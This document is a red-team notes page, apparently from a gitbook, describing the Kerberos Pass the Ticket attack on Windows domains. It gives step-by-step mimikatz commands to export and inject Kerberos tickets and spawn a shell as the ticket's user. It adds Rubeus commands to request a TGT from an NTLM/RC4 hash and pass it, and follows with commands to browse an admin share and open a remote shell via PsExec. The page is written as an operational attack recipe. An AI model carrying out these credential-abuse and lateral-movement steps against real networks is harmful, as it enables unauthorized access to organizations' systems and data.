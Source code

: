 # Pass The Ticket

## <mark style="color:red;">Pass The Ticket</mark>

<mark style="color:green;">**In a pass the ticket attack access is gained to a resource of a system (for example the administrative shares) using a Kerberos ticket that was generated or obtained from a compromised machine (TGT or TGS)**</mark>

{% hint style="warning" %}
PtT affects all windows platforms relying on kerberos.
{% endhint %}

run these in mimikatz:

```
kerberos::list
kerberos::list /export
```

we have the tickets that were saved inside the directory where we had the mimikatz executable.

![](<../../../.gitbook/assets/image (198).png>)

We go back to the mimikatz terminal. Here, we pass the ticket with the help of ptt module inside the Kerberos module followed by the name of the ticket that we want to pass.to perform the actions as the user that we passed the ticket for we decided to get a cmd as that user. This can be accomplished using the misc::cmd command as shown in the image given below.

```
kerberos::ptt ticket.kirbi
misc::cmd
```

![](<../../../.gitbook/assets/image (195).png>)

## <mark style="color:red;">Rubeus</mark>

[**rubeus**](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) **is a C# toolset for raw Kerberos interaction and abuses.**

we will use extract the tickets using Rubeus. This can be done with the help of the asktgt module. Although it is not so sneaky method it gets the work done. We need the domain name, User, Password Hash. When used normally will give the base64 encoded TGT ticket. But Let’s Pass the Ticket as well in the same step

```
Rubeus.exe asktgt /domain:ignite.local /user:Administrator /rc4: 32196b56ffe6f45e294117b91a83bf38 /ptt
```

or pass the ticket with kirbi file:

```
Rubeus.exe ptt /ticket:ticket.kirbi
```

now we have the ticket for user administrator and we can access shares:

```
dir \\overloadDC\\secret_shares
```

or get shell access:

```
PsExec.exe \\192.168.1.105 cmd.exe
```
